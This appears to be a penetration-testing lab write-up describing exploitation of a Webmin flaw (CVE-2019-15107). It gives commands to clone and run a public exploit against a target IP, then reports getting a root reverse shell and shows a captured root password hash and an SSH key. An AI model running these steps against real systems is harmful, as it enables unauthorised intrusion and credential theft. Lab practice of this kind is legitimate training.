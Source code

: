 # website exploitation

Located Github repo with exploit: https://github.com/MuirlandOracle/CVE-2019-15107

![](../APPENDIX/exploit_on_github.png)

git clone'd it to my attackbox using:

```bash
git clone https://github.com/MuirlandOracle/CVE-2019-15107
```

Install requirements:

```bash
python3 -m pip install -r requirements.txt
```

Run script (make sure it is executable):

```bash
./CVE-2019-15107.py 10.200.187.200
```

![](../APPENDIX/script_executed.png)

Webserver is running as root.

This is a pseudoshell, meaning we don't have full features of a regular shell.

Entered in `shell` in the pseudoshell, followed instructions to generate a shell. Reverse shell was generated successfully.

![](../APPENDIX/reverse_shell_on_webserver.png)

Able to retrieve some information, such as:
* root user's hash: `root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0`
* root user's private SSH key (id_rsa)

